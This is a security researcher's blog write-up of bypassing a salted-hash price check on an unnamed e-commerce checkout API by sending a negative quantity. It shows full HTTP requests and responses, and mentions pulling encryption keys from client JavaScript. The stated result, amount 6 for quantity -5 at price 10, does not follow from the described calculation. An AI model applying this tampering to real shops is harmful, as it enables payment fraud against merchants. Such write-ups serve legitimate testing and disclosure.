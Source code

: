 ```yaml
---
title: "Exploiting Business Logic Error: Price Manipulation"
layout: post
date: 2023-04-12 12:00
categories: blog
---
```


This blog discusses the exploitation of a business logic error that allows users to manipulate prices and pay less for the products and services offered by the target company.

## Target Background
The target of this analysis is a web application functioning as an e-commerce platform. It facilitates online purchases of various products and services by users.

## Overview
The Target company previously disclosed a vulnerability report regarding a specific issue: "hackers were able to manipulate the payment amount during the checkout/order process." To understand the application's fix for this vulnerability, I attempted the same steps to examine the implemented validation mechanisms.

## Reconnaissance
- Hosted on AWS
- Utilizes React for web application development
- Mobile application version is also available
- All application requests and responses are encrypted

## Finding the Encryption Key
Upon inspecting the application traffic, I discovered that the JSON payloads in requests and responses were encrypted. To manipulate or interact with these encrypted payloads, I needed to locate the encryption and decryption keys.

During my analysis of the JavaScript files, I identified the encryption key, the encryption algorithm, the mode, and the initialization vector. Armed with this information, I used online encryption tools to encrypt the payloads.

## Playing with fire🔥
I attempted to modify the price parameter in the request, but the application's validation mechanism prevented any successful manipulation. The amount to be paid was validated against a salted hash that was associated with the purchase order.

### Actual Request and Response

### Request

```http
POST /api/v1/checkout HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "10",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

### Response

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "10",
  "amount_to_be_paid": "100",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

The above request represents a checkout request sent to the server to facilitate payment for a purchase order. To address the previously exploited price manipulation vulnerability, the developer implemented an additional parameter named `saltedhash`.

## Bypass
During my exploration of the application flow and requests, I decided to conduct a deeper investigation of the `checkout` request. I noticed a parameter called `quantity`, which was responsible for creating orders based on the desired quantity specified by customers. I attempted to modify this value to a negative number.

### Manipulated Request

```http
POST /api/v1/checkout HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "-5",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

Upon sending the request with a negative value for the `quantity` parameter, the server responded by adjusting the amount to be paid accordingly. The lack of validation on the `quantity` parameter allowed negative values to be accepted. As a result, the backend calculation for the amount to be paid was based on the per-quantity price and the number of quantities in the cart.

### Response

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "-5",
  "amount_to_be_paid": "6",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

By changing the `quantity` value to a negative number, it was possible to pay a reduced amount for the orders placed.

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).